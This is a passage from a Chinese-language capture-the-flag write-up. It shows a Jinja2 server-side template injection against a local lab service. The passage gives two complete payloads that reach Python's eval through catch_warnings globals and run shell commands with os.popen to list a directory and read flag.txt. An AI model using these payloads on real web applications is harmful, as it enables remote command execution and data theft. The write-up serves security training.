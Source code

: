    我们进一步来看看这个文件夹下有什么东西：
   
   ```
   # 显示 `/flag` 中的文件
   http://127.0.0.1:11451/index/?content={% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls /flag").read()') }}{% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
   ```
   
   ![find_flag-2](img/search_flag-2.png)

2. 结果很明显了， flag 就藏在这个位置，构建命令打开文件 `flag.txt` ：
   
   ```
   http://127.0.0.1:11451/index/?content={% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("cat /flag/flag.txt").read()') }}{% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
   ```
   